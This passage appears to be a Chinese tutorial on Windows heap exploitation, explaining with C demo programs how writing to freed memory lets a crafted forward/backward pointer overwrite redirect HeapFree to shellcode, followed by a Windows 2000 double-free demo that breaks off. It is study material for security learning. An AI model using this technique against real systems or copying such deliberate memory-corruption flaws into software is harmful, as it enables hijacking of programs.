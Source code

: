 

#### 写入已释放的内存

漏洞代码

```c
 1. typedef struct _unalloc {
 2.   PVOID fp;
 3.   PVOID bp;
 4. } unalloc, *Punalloc;

 5. char shellcode[] = "\x90\x90\x90\xb0\x06\x90\x90";
 6. int _tmain(int argc, _TCHAR* argv[]) {
 7.   Punalloc h1;
 8.   HLOCAL h2 = 0;
 9.   HANDLE hp;
10.   hp = HeapCreate(0, 0x1000, 0x10000);
11.   h1 = (Punalloc)HeapAlloc(hp, HEAP_ZERO_MEMORY, 32);
12.   HeapFree(hp, 0, h1);
13.   h1->fp = (PVOID)(0x042B17C - 4); 
14.   h1->bp = shellcode;
15.   h2 = HeapAlloc(hp, HEAP_ZERO_MEMORY, 32);
16.   HeapFree(hp, 0, h2);
17.   return 0;
18. }
```

代码第10行建立了一个0x1000字节的堆，第11行从该堆中分配了一个32字节的内存块给h1，然后第12行就被释放了。释放h1后，它被放入一个空闲块大小为32字节的空闲列表中。其数据区的前8个字节分别为前后向指针，由于链表中只有其一个空闲块，所以其前后向指针都指向的是链表头。在这个例子中，前向指针将被待覆写的地址-4所取代，后向指针则将被外壳代码的地址所取代。

第13、14行就是利用原来的指针h1覆写前后向指针。第15行又申请了一个和h1同样大小的内存块，毫无疑问，这将导致直接从空闲链表中分配。即原来的h1又会从空闲链表中取下来，这过程中会用到类似于unlink的解链函数，这就导致了HeapFree的地址被外壳代码所覆写。

因此当第16行调用HeapFree时，其实调用的是外壳代码，从而将程序的控制权转移到外壳代码。



#### 双重释放

Rtl的双重释放比较悬（后面你就会发现了），因为微软没有公布Rtl的具体实现，我们只能通过不断调试去发现问题。



下面是一个针对于Windows 2000平台的双重释放漏洞程序

```c
char buffer[1000] = "";
int main(int argc, char *argv[]) {
HANDLE hp;
HLOCAL h1, h2, h3, h4, h5, h6, h7, h8, h9;

hp = HeapCreate(0,0x1000,0x10000);
h1 = HeapAlloc(hp, HEAP_ZERO_MEMORY, 16);
memset(h1, 'a', 16);
h2 = HeapAlloc(hp, HEAP_ZERO_MEMORY, 16);
memset(h2, 'b', 16);
h3 = HeapAlloc(hp, HEAP_ZERO_MEMORY, 32);
memset(h3, 'c', 32);
h4 = HeapAlloc(hp, HEAP_ZERO_MEMORY, 16);
memset(h4, 'd', 16);
h5 = HeapAlloc(hp, HEAP_ZERO_MEMORY,8)
memset(h5, 'e', 8);
HeapFree(hp, 0, h2); 
HeapFree(hp, 0, h3);
HeapFree(hp, 0, h3);
h6 = HeapAlloc(hp, 0, 64);
memset(h6, 'f', 64);
strcpy((char *)h4, buffer);
h7 = HeapAlloc(hp, 0, 16);
```